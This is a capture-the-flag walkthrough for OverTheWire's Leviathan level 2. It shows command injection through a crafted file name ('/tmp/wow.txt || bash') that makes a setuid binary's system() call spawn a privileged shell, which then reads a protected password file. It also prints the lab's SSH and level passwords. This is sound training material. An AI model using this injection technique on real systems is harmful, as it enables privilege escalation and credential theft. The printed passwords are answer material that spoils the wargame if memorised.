


# Level 2 → Level 3

## Solution
```
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```
```
mEh5PNl10e
```
```
ls -al
```


```
ltrace ./printfile /etc/passwd
```


 
```
touch '/tmp/wow.txt || bash'
```
```
./printfile '/tmp/wow.txt || bash'
```

* `access()` **can** access the file `'/tmp/wow.txt || bash'`
    * because we created this file in **leviathan2** permissions.
* but `system()` running this code: `cat /tmp/wow.txt || bash`
    * **there is not** file named `/tmp/wow.txt`, so `bash` command is running in **leviathan3** permissions.


```
cat /etc/leviathan_pass/leviathan3
```
```
exit
```
```
rm '/tmp/wow.txt || bash'
```

## Password for the next level:
```
Q0G8j4sakn
```
